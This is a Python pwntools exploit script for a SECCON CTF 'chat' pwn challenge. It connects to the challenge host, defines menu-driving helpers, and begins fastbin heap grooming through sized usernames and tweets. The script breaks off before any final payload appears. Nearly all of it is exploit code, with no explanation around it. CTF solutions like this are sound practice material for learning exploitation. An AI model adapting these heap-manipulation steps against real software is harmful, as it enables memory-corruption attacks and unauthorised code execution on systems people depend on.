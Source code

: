 ```python exp_chat.py
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "chat.pwn.seccon.jp"
PORT = 26895
ELF_PATH = "./chat"
LIBC_PATH = "/lib/x86_64-linux-gnu/libc.so.6" # ubuntu 14.04 64bit

# setting 
context.arch = 'amd64'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']

context.log_level = 'INFO'

elf = ELF(ELF_PATH)
libc = ELF(LIBC_PATH)

def signup(name):
    r.sendlineafter("> ", "1")
    r.sendlineafter("> ", name)

def signin(name):
    r.sendlineafter("> ", "2")
    r.sendlineafter("> ", name)

def tweet(msg):
    r.sendlineafter(">> ", "4")
    r.sendlineafter(">> ", msg)

def dm(user, msg):
    r.sendlineafter(">> ", "5")
    r.sendlineafter(">> ", user)
    r.sendlineafter(">> ", msg)

def signout():
    r.sendlineafter(">> ", "0")

def change_name(name):
    r.sendlineafter(">> ", "7")
    r.sendlineafter(">> ", name)

if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)

    signup("A"*4) # fastbin[0] * 2
    signup("B"*4) # fastbin[0] * 2
    signup("C"*30) # fastbin[0] * 1 + fastbin[1] * 1 

    signin("A"*4)
    tweet("aaaa") 
    signout()

    signin("B"*4)
    tweet("bbbb")
```